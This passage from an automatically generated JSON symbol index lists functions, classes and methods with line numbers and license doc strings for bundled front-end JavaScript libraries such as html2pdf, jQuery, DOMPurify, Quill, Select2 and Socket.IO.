4160, "name": "inlineFormElement"}, {"kind": "function", "line": 4179, "name": "getInputValue"}, {"kind": "function", "line": 4326, "name": "createAdditiveCounter"}, {"kind": "function", "line": 4340, "name": "createCounterStyleWithSymbolResolver"}, {"kind": "function", "line": 4354, "name": "createCounterStyleFromRange"}, {"kind": "function", "line": 4362, "name": "createCounterStyleFromSymbols"}, {"kind": "function", "line": 4376, "name": "createCJKCounter"}, {"kind": "function", "line": 4524, "name": "_createClass"}, {"kind": "function", "line": 4586, "name": "NodeContainer"}, {"kind": "function", "line": 4730, "name": "getImage"}, {"kind": "function", "line": 4763, "name": "_createClass"}, {"kind": "function", "line": 4775, "name": "StackingContext"}, {"kind": "function", "line": 4845, "name": "parseNodeTree"}, {"kind": "function", "line": 4905, "name": "createsRealStackingContext"}, {"kind": "function", "line": 4909, "name": "createsStackingContext"}, {"kind": "function", "line": 4913, "name": "isBodyWithTransparentRoot"}, {"kind": "function", "line": 4927, "name": "_createClass"}, {"kind": "function", "line": 5048, "name": "_slicedToArray"}, {"kind": "function", "line": 5129, "name": "parseColorStops"}, {"kind": "function", "line": 5178, "name": "parseLinearGradient"}, {"kind": "function", "line": 5193, "name": "parseRadialGradient"}, {"kind": "function", "line": 5234, "name": "calculateGradientDirection"}, {"kind": "function", "line": 5250, "name": "parseTopRight"}, {"kind": "function", "line": 5254, "name": "parseSideOrCorner"}, {"kind": "function", "line": 5292, "name": "parsePercentageAngle"}, {"kind": "function", "line": 5303, "name": "findCorner"}, {"kind": "function", "line": 5323, "name": "calculateRadius"}, {"kind": "function", "line": 5465, "name": "transformObsoleteColorStops"}, {"kind": "function", "line": 5503, "name": "_slicedToArray"}, {"kind": "function", "line": 5505, "name": "_createClass"}, {"kind": "function", "line": 5525, "name": "Renderer"}, {"kind": "function", "line": 5547, "name": "callback"}, {"kind": "function", "line": 5591, "name": "callback"}, {"kind": "function", "line": 5764, "name": "splitDescendants"}, {"kind": "function", "line": 5780, "name": "splitStackingContexts"}, {"kind": "function", "line": 5808, "name": "sortByZIndex"}, {"kind": "function", "line": 5896, "name": "_createClass"}, {"kind": "function", "line": 5908, "name": "ResourceLoader"}, {"kind": "function", "line": 6025, "name": "imageLoadHandler"}, {"kind": "function", "line": 6115, "name": "isInlineImage"}, {"kind": "function", "line": 6118, "name": "isInlineBase64Image"}, {"kind": "function", "line": 6121, "name": "isBlobImage"}, {"kind": "function", "line": 6125, "name": "isSVG"}, {"kind": "function", "line": 6129, "name": "_loadImage"}, {"kind": "function", "line": 6161, "name": "_slicedToArray"}, {"kind": "function", "line": 6442, "name": "addOtherToken"}, {"kind": "function", "line": 6453, "name": "getQuote"}, {"kind": "function", "line": 6465, "name": "formatCounterValue"}, {"kind": "function", "line": 6494, "name": "_slicedToArray"}, {"kind": "function", "line": 6496, "name": "_createClass"}, {"kind": "function", "line": 6776, "name": "getSheetFonts"}, {"kind": "function", "line": 6813, "name": "createStyleSheetFontsFromText"}, {"kind": "function", "line": 6831, "name": "restoreOwnerScroll"}, {"kind": "function", "line": 6837, "name": "cloneCanvasContents"}, {"kind": "function", "line": 6853, "name": "inlinePseudoElement"}, {"kind": "function", "line": 6897, "name": "createPseudoHideStyles"}, {"kind": "function", "line": 6901, "name": "createStyles"}, {"kind": "function", "line": 6907, "name": "initNode"}, {"kind": "function", "line": 6917, "name": "generateIframeKey"}, {"kind": "function", "line": 6923, "name": "getIframeDocumentElement"}, {"kind": "function", "line": 6952, "name": "createIframeContainer"}, {"kind": "function", "line": 6974, "name": "iframeLoader"}, {"kind": "function", "line": 7034, "name": "serializeDoctype"}, {"kind": "function", "line": 7071, "name": "_slicedToArray"}, {"kind": "function", "line": 7227, "name": "html2canvas"}, {"doc": "Determine the type of a variable/object.", "kind": "function", "line": 7309, "name": "objType"}, {"doc": "Create an HTML element with optional className, innerHTML, and style.", "kind": "function", "line": 7315, "name": "createElement"}, {"doc": "Deep-clone a node and preserve contents/properties.", "kind": "function", "line": 7332, "name": "cloneNode"}, {"doc": "Convert units from px using the conversion value 'k' from jsPDF.", "kind": "function", "line": 7363, "name": "unitConvert"}, {"doc": "Convert units to px using the conversion value 'k' from jsPDF.", "kind": "function", "line": 7376, "name": "toPx"}, {"kind": "function", "line": 7417, "name": "asap"}, {"kind": "function", "line": 7860, "name": "Enumerator"}, {"kind": "function", "line": 8566, "name": "Worker"}, {"doc": "Generate a PDF from an HTML element or string using html2canvas and jsPDF.  @param {Element|string} source The source element or HTML string. @param {Object=} opt An object of optional settings: 'margin', 'filename', 'image' ('type' and 'quality'), and 'html2canvas' / 'jspdf', which are sent as settings to their corresponding functions.", "kind": "function", "line": 9342, "name": "html2pdf"}, {"kind": "class", "line": 248, "name": "as"}, {"kind": "class", "line": 587, "name": "as"}, {"kind": "class", "line": 841, "name": "as"}, {"kind": "class", "line": 942, "name": "as"}, {"kind": "class", "line": 1012, "name": "as"}, {"kind": "class", "line": 1033, "name": "as"}, {"kind": "class", "line": 1064, "name": "as"}, {"kind": "class", "line": 1125, "name": "as"}, {"kind": "class", "line": 1382, "name": "as"}, {"kind": "class", "line": 2626, "name": "as"}, {"kind": "class", "line": 3018, "name": "as"}, {"kind": "class", "line": 3211, "name": "as"}, {"kind": "class", "line": 3353, "name": "of"}, {"kind": "class", "line": 3912, "name": "as"}, {"kind": "class", "line": 3988, "name": "as"}, {"kind": "class", "line": 4046, "name": "as"}, {"kind": "class", "line": 4582, "name": "as"}, {"kind": "class", "line": 4773, "name": "as"}, {"kind": "class", "line": 4931, "name": "as"}, {"kind": "class", "line": 5068, "name": "as"}, {"kind": "class", "line": 5523, "name": "as"}, {"kind": "class", "line": 5906, "name": "as"}, {"kind": "class", "line": 6518, "name": "as"}, {"kind": "class", "line": 8236, "name": "Promise"}, {"kind": "method", "line": 312, "name": "_createClass"}, {"kind": "method", "line": 606, "name": "_createClass"}, {"kind": "method", "line": 852, "name": "_createClass"}, {"kind": "method", "line": 958, "name": "_createClass"}, {"kind": "method", "line": 1081, "name": "_createClass"}, {"kind": "method", "line": 1145, "name": "_createClass"}, {"kind": "method", "line": 2635, "name": "_createClass"}, {"kind": "method", "line": 2761, "name": "setTimeout"}, {"doc": "$FlowFixMe - get/set properties not yet supported", "kind": "method", "line": 2833, "name": "SUPPORT_RANGE_BOUNDS"}, {"doc": "$FlowFixMe - get/set properties not yet supported", "kind": "method", "line": 2839, "name": "SUPPORT_SVG_DRAWING"}, {"doc": "$FlowFixMe - get/set properties not yet supported", "kind": "method", "line": 2845, "name": "SUPPORT_BASE64_DRAWING"}, {"doc": "$FlowFixMe - get/set properties not yet supported", "kind": "method", "line": 2855, "name": "SUPPORT_FOREIGNOBJECT_DRAWING"}, {"doc": "$FlowFixMe - get/set properties not yet supported", "kind": "method", "line": 2861, "name": "SUPPORT_CORS_IMAGES"}, {"doc": "$FlowFixMe - get/set properties not yet supported", "kind": "method", "line": 2867, "name": "SUPPORT_RESPONSE_TYPE"}, {"doc": "$FlowFixMe - get/set properties not yet supported", "kind": "method", "line": 2873, "name": "SUPPORT_CORS_XHR"}, {"kind": "method", "line": 3119, "name": "_createClass"}, {"kind": "method", "line": 3756, "name": "_createClass"}, {"kind": "method", "line": 3999, "name": "_createClass"}, {"kind": "method", "line": 4664, "name": "_createClass"}, {"kind": "method", "line": 4786, "name": "_createClass"}, {"kind": "method", "line": 4943, "name": "_createClass"}, {"kind": "method", "line": 5534, "name": "_createClass"}, {"kind": "method", "line": 5920, "name": "_createClass"}, {"doc": "Inline XML images may fail to parse, throwing an Error later on", "kind": "method", "line": 6040, "name": "setTimeout"}, {"kind": "method", "line": 6046, "name": "setTimeout"}, {"kind": "method", "line": 6100, "name": "_createClass"}, {"doc": "Inline XML images may fail to parse, throwing an Error later on", "kind": "method", "line": 6139, "name": "setTimeout"}, {"kind": "method", "line": 6144, "name": "setTimeout"}, {"kind": "method", "line": 6542, "name": "_createClass"}, {"kind": "method", "line": 7551, "name": "asap"}, {"kind": "method", "line": 7641, "name": "asap"}, {"kind": "method", "line": 7675, "name": "subscribe"}, {"kind": "method", "line": 7834, "name": "resolver"}, {"kind": "method", "line": 7944, "name": "subscribe"}, {"kind": "method", "line": 8013, "name": "setTimeout"}, {"kind": "method", "line": 8019, "name": "setTimeout"}, {"kind": "method", "line": 8038, "name": "setTimeout"}, {"kind": "method", "line": 8044, "name": "setTimeout"}, {"kind": "method", "line": 8339, "name": "findResult"}, {"kind": "method", "line": 8374, "name": "findAuthor"}, {"kind": "method", "line": 8380, "name": "findBoooksByAuthor"}, {"kind": "method", "line": 8402, "name": "then"}, {"kind": "method", "line": 8451, "name": "findAuthor"}]}, {"doc": "! jQuery v3.5.1 -ajax,-ajax/jsonp,-ajax/load,-ajax/script,-ajax/var/location,-ajax/var/nonce,-ajax/var/rquery,-ajax/xhr,-manipulation/_evalUrl,-deprecated/ajax-event-alias,-effects,-effects/Tween,-effects/animatedSelector | (c) JS Foundation and other contributors | jquery.org/license", "id": "static/js/jquery-3.5.1.slim.min.js", "kind": "module", "label": "jquery-3.5.1.slim.min.js", "language": "js", "sha256": "dce5af8f79ff14d7", "symbol_count": 6, "symbols": [{"doc": "/*! jQuery v3.5.1 -ajax,-ajax/jsonp,-ajax/load,-ajax/script,-ajax/var/location,-ajax/var/nonce,-ajax/var/rquery,-ajax/xhr,-manipulation/_evalUrl,-deprecated/ajax-event-alias,-effects,-effects/Tween,-effects/animatedSelector | (c) JS Foundation and other contributors | jquery.org/license", "kind": "function", "line": 2, "name": "e"}, {"doc": "/*! jQuery v3.5.1 -ajax,-ajax/jsonp,-ajax/load,-ajax/script,-ajax/var/location,-ajax/var/nonce,-ajax/var/rquery,-ajax/xhr,-manipulation/_evalUrl,-deprecated/ajax-event-alias,-effects,-effects/Tween,-effects/animatedSelector | (c) JS Foundation and other contributors | jquery.org/license", "kind": "function", "line": 2, "name": "p"}, {"doc": "/*! jQuery v3.5.1 -ajax,-ajax/jsonp,-ajax/load,-ajax/script,-ajax/var/location,-ajax/var/nonce,-ajax/var/rquery,-ajax/xhr,-manipulation/_evalUrl,-deprecated/ajax-event-alias,-effects,-effects/Tween,-effects/animatedSelector | (c) JS Foundation and other contributors | jquery.org/license", "kind": "function", "line": 2, "name": "h"}, {"doc": "/*! jQuery v3.5.1 -ajax,-ajax/jsonp,-ajax/load,-ajax/script,-ajax/var/location,-ajax/var/nonce,-ajax/var/rquery,-ajax/xhr,-manipulation/_evalUrl,-deprecated/ajax-event-alias,-effects,-effects/Tween,-effects/animatedSelector | (c) JS Foundation and other contributors | jquery.org/license", "kind": "function", "line": 2, "name": "X"}, {"doc": "/*! jQuery v3.5.1 -ajax,-ajax/jsonp,-ajax/load,-ajax/script,-ajax/var/location,-ajax/var/nonce,-ajax/var/rquery,-ajax/xhr,-manipulation/_evalUrl,-deprecated/ajax-event-alias,-effects,-effects/Tween,-effects/animatedSelector | (c) JS Foundation and other contributors | jquery.org/license", "kind": "function", "line": 2, "name": "ae"}, {"doc": "/*! jQuery v3.5.1 -ajax,-ajax/jsonp,-ajax/load,-ajax/script,-ajax/var/location,-ajax/var/nonce,-ajax/var/rquery,-ajax/xhr,-manipulation/_evalUrl,-deprecated/ajax-event-alias,-effects,-effects/Tween,-effects/animatedSelector | (c) JS Foundation and other contributors | jquery.org/license", "kind": "function", "line": 2, "name": "i"}]}, {"doc": "----------------------------------------------- Author : Vincent Garreau  - vincentgarreau.com MIT license: http://opensource.org/licenses/MIT Demo / Generator : vincentgarreau.com/particles.js GitHub : github.com/VincentGarreau/particles.js How to use? : Check the GitHub README v2.0.0 -----------------------------------------------", "id": "static/js/particles.js", "kind": "module", "label": "particles.js", "language": "js", "sha256": "e9faeacb059d4bb2", "symbol_count": 11, "symbols": [{"kind": "function", "line": 463, "name": "draw"}, {"kind": "function", "line": 799, "name": "init"}, {"kind": "function", "line": 881, "name": "process"}, {"kind": "function", "line": 972, "name": "process"}, {"kind": "function", "line": 1449, "name": "hexToRgb"}, {"kind": "function", "line": 1464, "name": "clamp"}, {"kind": "function", "line": 1468, "name": "isInArray"}, {"kind": "function", "line": 513, "name": "d"}, {"kind": "function", "line": 1248, "name": "interiorAngleDegrees"}, {"kind": "function", "line": 10, "name": "pJS"}, {"kind": "method", "line": 1148, "name": "setTimeout"}]}, {"id": "static/js/popper-2.5.4.min.js", "kind": "module", "label": "popper-2.5.4.min.js", "language": "js", "sha256": "05ac9912b12e9e4b", "symbol_count": 1, "symbols": [{"kind": "function", "line": 5, "name": "r"}]}, {"doc": "! @license DOMPurify 3.0.9 | (c) Cure53 and other contributors | Released under the Apache license 2.0 and Mozilla Public License 2.0 | github.com/cure53/DOMPurify/blob/3.0.9/LICENSE", "id": "static/js/purify-3.0.9.min.js", "kind": "module", "label": "purify-3.0.9.min.js", "language": "js", "sha256": "1349787cb44da1c4", "symbol_count": 2, "symbols": [{"doc": "/*! @license DOMPurify 3.0.9 | (c) Cure53 and other contributors | Released under the Apache license 2.0 and Mozilla Public License 2.0 | github.com/cure53/DOMPurify/blob/3.0.9/LICENSE", "kind": "function", "line": 2, "name": "V"}, {"doc": "/*! @license DOMPurify 3.0.9 | (c) Cure53 and other contributors | Released under the Apache license 2.0 and Mozilla Public License 2.0 | github.com/cure53/DOMPurify/blob/3.0.9/LICENSE", "kind": "function", "line": 2, "name": "Z"}]}, {"doc": "! For license information please see quill.js.LICENSE.txt", "id": "static/js/quill-2.0.3.js", "kind": "module", "label": "quill-2.0.3.js", "language": "js", "sha256": "a1d4c6a67e1db37a", "symbol_count": 124, "symbols": [{"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "i"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "l"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "n"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "s"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "d"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "t"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "r"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "r"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "n"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "C"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "h"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "n"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "n"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "l"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "q"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "e"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "t"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "l"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "h"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "e"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "l"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "e"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "l"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "n"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "e"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "t"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "l"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "r"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "r"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "n"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "t"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "r"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "e"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "w"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "q"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "l"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "e"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "e"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "R"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "e"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "r"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "e"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "i"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "st"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "e"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "n"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "r"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "A"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "f"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "n"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "n"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "n"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "function", "line": 2, "name": "F"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "c"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "u"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "i"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "i"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "s"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "o"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "o"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "i"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "m"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "N"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "k"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "S"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "j"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "extends"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "I"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "a"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "n"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "u"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "h"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "d"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "i"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "o"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "S"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "f"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "h"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "i"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "s"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "t"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "extends"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "extends"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "extends"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "b"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "t"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "t"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "t"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "extends"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "extends"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "extends"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "t"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "o"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "c"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "h"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "g"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "m"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "N"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "w"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "k"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "L"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "T"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "R"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "M"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "Z"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "G"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "X"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "Q"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "J"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "Y"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "tt"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "et"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "rt"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "ot"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "extends"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "extends"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "wt"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "qt"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "St"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "Ot"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "jt"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "Ct"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "extends"}, {"doc": "/*! For license information please see quill.js.LICENSE.txt", "kind": "class", "line": 2, "name": "extends"}]}, {"doc": "! Select2 4.1.0-beta.1 | https://github.com/select2/select2/blob/master/LICENSE.md", "id": "static/js/select2-4.1.0.min.js", "kind": "module", "label": "select2-4.1.0.min.js", "language": "js", "sha256": "7384c915e84d84a9", "symbol_count": 3, "symbols": [{"doc": "/*! Select2 4.1.0-beta.1 | https://github.com/select2/select2/blob/master/LICENSE.md", "kind": "function", "line": 2, "name": "e"}, {"doc": "/*! Select2 4.1.0-beta.1 | https://github.com/select2/select2/blob/master/LICENSE.md", "kind": "function", "line": 2, "name": "t"}, {"doc": "/*! Select2 4.1.0-beta.1 | https://github.com/select2/select2/blob/master/LICENSE.md", "kind": "function", "line": 2, "name": "d"}]}, {"doc": "! showdown v 2.1.0 - 21-04-2022", "id": "static/js/showdown-2.1.0.min.js", "kind": "module", "label": "showdown-2.1.0.min.js", "language": "js", "sha256": "18f6675b35a51bb0", "symbol_count": 5, "symbols": [{"doc": "/*! showdown v 2.1.0 - 21-04-2022", "kind": "function", "line": 2, "name": "but"}, {"doc": "/*! showdown v 2.1.0 - 21-04-2022", "kind": "function", "line": 2, "name": "must"}, {"doc": "/*! showdown v 2.1.0 - 21-04-2022", "kind": "function", "line": 2, "name": "must"}, {"doc": "/*! showdown v 2.1.0 - 21-04-2022", "kind": "function", "line": 2, "name": "must"}, {"doc": "/*! showdown v 2.1.0 - 21-04-2022", "kind": "function", "line": 2, "name": "a"}]}, {"doc": "!", "id": "static/js/socket.io-4.0.0.min.js", "kind": "module", "label": "socket.io-4.0.0.min.js", "language": "js", "sha256": "5adcfef4ab99bed2", "symbol_count": 32, "symbols": [{"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "o"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "e"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "r"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "e"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "v"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "b"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "f"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "m"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "e"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "e"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "r"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "e"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "r"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "e"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "p"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "e"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "e"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": 